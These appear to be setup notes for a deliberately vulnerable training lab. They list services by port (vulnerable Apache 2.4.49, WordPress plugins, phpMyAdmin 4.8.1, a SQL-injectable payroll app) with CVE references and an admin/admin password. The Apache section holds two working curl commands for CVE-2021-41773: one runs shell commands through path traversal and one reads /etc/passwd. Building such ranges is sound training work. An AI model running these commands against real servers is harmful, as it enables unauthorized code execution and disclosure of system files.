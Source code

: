 # phpmyadmin 4.8.1 & MTGASS MOGG Web Simulator

1. **tcp 8511**
2. change October CMS

# Apache 2.4.49

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password 
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- Weak password (admin/admin)
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
